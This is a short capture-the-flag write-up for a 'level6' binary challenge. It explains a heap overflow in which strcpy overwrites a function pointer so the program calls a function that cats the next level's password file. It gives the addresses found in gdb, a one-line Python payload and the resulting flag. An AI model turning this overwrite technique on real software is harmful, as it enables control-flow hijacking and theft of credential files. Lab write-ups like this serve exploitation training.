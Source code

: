 # level6

The executable does the following :

- `malloc(60)` into `var_one`
- `malloc(4)` into `var_two`
- Assign `m` to `var_two`
- `strcpy` `argv[1]` to `var_one`
- Run `var_two`

It's simple : we'll need to replace `var_two`'s value, `m`, with `n`, a function which runs `system("/bin/cat /home/user/level7/.pass");`, so it runs instead.

To do this, we'll exploit the `strcpy`, on the heap this time.

## **The value**

Cutter reveals the address of `n`, our spoofed value : `0x08048454`.

Formatted, this is `\x54\x84\x04\x08`.

## **The addresses**

By running the executable in `gdb`, breaking after the `malloc`s and running `p/x $eax`, we get the addresses :

- `var_one` is at `0x804a008`
- `var_two` is at `0x804a050`

`0x50 - 0x08 = 0x48 = 72`, so we'll need to write 72 characters after the beginning of `var_one`

## **The exploit**

We can do this fairly simply ; any buffer of `76+` characters will force `strcpy` to overwrite `var_two`. We run :

```
./level6 $(python -c 'print("A" * 72 + "\x54\x84\x04\x08")')
```

## **The flag**

It works ! We get the `level6` flag :

```
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```